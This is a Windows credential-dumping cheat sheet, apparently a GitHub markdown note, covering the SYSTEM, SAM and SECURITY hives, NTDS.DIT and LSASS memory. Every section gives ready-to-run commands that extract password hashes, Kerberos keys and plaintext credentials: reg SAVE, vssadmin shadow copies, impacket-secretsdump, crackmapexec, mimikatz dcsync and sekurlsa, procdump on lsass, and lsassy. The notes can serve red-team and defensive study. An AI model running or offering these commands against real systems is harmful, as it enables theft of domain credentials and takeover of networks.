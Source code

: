 # Credentials Dumping
Requirements:
* Probably need administrator or SYSTEM or debug privileges

## SYSTEM - Keys
Required SYSTEM hive to decrypt other useful hives.

`reg SAVE HKLM\SYSTEM C:\Windows\Temp\SYSTEM`

## NTDS.DIT - All domain account hashes & kerberos keys
The AD database is saved in a file on every DC in the domain. The AD database is stored in the NTDS.DIT file located in the NTDS folder of the system root. On DC you can retrieve NTDS.DIT file for domain users. hashes can be used for Pass The Hash attack (except cached hashes).

```
vssadmin create shadow /for=C:
copy <SHADOW_PATH>\Windows\NTDS\ntds.dit C:\Windows\Temp\NTDS
vssadmin delete shadows /shadow=<SHADOW_ID>
```
`impacket-secretsdump -ntds <NTDS> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --ntds`

mimikatz # `lsadump::dcsync \all`

## SAM - Local account hashes
Windows stores and manages the local user and group accounts in a database file called Security Account Manager (SAM). It  authenticates local user logons. On a domain controller, it simply stores the administrator account from the time it was a server, which serves as the Directory Services Restore Mode (DSRM) recovery account.
`reg SAVE HKLM\SAM C:\Windows\Temp\SAM`
`impacket-secretsdump -sam <SAM> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --sam`

mimikatz # `token::elevate lsadump::sam /system:<SYSTEM> /SAM:<SAM>`
mimikatz # `token::elevate lsadump::sam`

## SECURITY - Cached domain account hashes & LSA secrets
Each time a user logs on to a domain, Windows caches the credentials supplied and stores them in the security hive in the registry of the operation system. With cached credentials, the user can log on to a domain member without being connected to a domain controller within that domain. Mscash is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Is not saved on a DC.

The LSA secrets, which are secret pieces of data that are accessible only to SYSTEM account processes, are stored (in some circumstances) on the hard disk drive. Some of these secrets are credentials that must persist after reboot. Credentials stored as LSA secrets might include:
* Account password for the computer's Active Directory Domain Services (AD DS) account
* Account passwords for Windows services that are configured on the computer
* Account passwords for configured scheduled tasks
* Account passwords for IIS application pools and websites
* Passwords for Microsoft accounts

`reg SAVE HKLM\SECURITY C:\Windows\Temp\SECURITY`
`impacket-secretsdump -security <SECURITY> -system <SYSTEM> LOCAL`

`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> --lsa`

mimikatz # `token::elevate lsadump::cache`

mimikatz # `token::elevate lsadump::lsa /inject` **? LOCAL ACCOUNTS?!**

## LSASS.exe process - active domain account hashes & tickets
The Local Security Authority Subsystem Service (LSASS) stores credentials in memory on behalfs of users with active Windows sessions. LSASS can store credentials in multiple forms, including: 
* reversibly encrypted plaintext
* kerberos tickets (ticket-granting tickets (TGTs), service tickets)
* NT hash and LM hash

Tools for remote dumping creds needs port 139 or 445 to be open for SMB:
`lsassy -d <DOMAIN> -u <USER> -p <PASS> <IP>`
`crackmapexec smb <IP> -d <DOMAIN> -u <USER> -p <PASS> -M lsassy`

Local dumping:
`procdump -accepteula -ma lsass.exe C:\Windows\Temp\lsass.dmp`
mimikatz # `sekurlsa::minidump <DUMPFILE>`
mimikatz # `sekurlsa::logonPasswords`







`impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'`